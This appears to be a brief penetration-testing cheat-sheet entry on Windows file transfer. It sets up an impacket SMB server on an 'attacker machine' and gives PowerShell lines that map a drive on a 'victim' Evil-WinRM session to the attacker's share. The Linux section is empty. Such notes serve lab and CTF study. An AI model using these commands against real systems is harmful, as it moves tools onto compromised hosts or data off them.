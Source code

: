 ## Windows

impacket-smbserver on attacker machine. Useful when transferring through evilwinrm
```
impacket-smbserver <NameOfServer> $(pwd) -smb2support -user <AnyUser-UsedForLater> -password <AnyPassword-UsedForLater>
```
On the victim Evilwinrm box
```
$pass = convertto-securestring <'AnyPassword'> -AsPlainText -force
$cred = New-Object System.Management.Automation.PSCredential(<'AnyUser'>, $pass)

New-PSDrive -Name <UserFromLastStep> -PSProvider Filesystem -Credential $cred -Root \\<Attacker.IP.Address.>\<NameOfServer>
```

## Linux

